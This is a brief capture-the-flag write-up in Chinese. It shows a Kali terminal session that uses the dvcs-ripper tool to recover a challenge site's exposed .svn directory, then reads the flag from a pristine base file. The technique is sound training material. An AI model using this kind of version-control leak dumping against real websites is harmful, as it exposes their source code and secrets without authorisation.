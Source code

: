 ```bash
drwxr-xr-x 8 tyd tyd  4096  7月23日 17:57 .git
-rw-r--r-- 1 tyd tyd   149  7月23日 17:57 .gitignore
-rw-r--r-- 1 tyd tyd  3855  7月23日 17:57 hg-decode.pl
-rw-r--r-- 1 tyd tyd   221  7月23日 18:03 index.html
-rw-r--r-- 1 tyd tyd 18027  7月23日 17:57 LICENSE
-rw-r--r-- 1 tyd tyd  5597  7月23日 17:57 README.md
-rwxr-xr-x 1 tyd tyd  6401  7月23日 17:57 rip-bzr.pl
-rwxr-xr-x 1 tyd tyd  4717  7月23日 17:57 rip-cvs.pl
-rwxr-xr-x 1 tyd tyd 15114  7月23日 17:57 rip-git.pl
-rwxr-xr-x 1 tyd tyd  6102  7月23日 17:57 rip-hg.pl
-rwxr-xr-x 1 tyd tyd  6157  7月23日 17:57 rip-svn.pl
drwxr-xr-x 5 tyd tyd  4096  7月23日 18:03 .svn

┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ cd .svn   

# 用curl命令访问文件检查网页中是否存在flag返回404
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper/.svn]
└─$ curl http://challenge-6fa04595016447b5.sandbox.ctfhub.com:10800/flag_116206259.txt
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.16.1</center>
</body>
</html>

┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper/.svn]
└─$ ls
entries  format  pristine  text-base  tmp  wc.db  wc.db-journal
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper/.svn]
└─$ cd pristine
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper/.svn/pristine]
└─$ ls
88  bf
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper/.svn/pristine]
└─$ cd 88      
                                                                            
┌──(tyd㉿Kali)-[~/…/dvcs-ripper/.svn/pristine/88]
└─$ ls
88478f98805b77f701bfcc0696cfe363db0e0bf8.svn-base
                                                                            
┌──(tyd㉿Kali)-[~/…/dvcs-ripper/.svn/pristine/88]
└─$ cat 88478f98805b77f701bfcc0696cfe363db0e0bf8.svn-base
ctfhub{e99d45499cf367688c931aa2}
```

提交`ctfhub{e99d45499cf367688c931aa2}`即可。
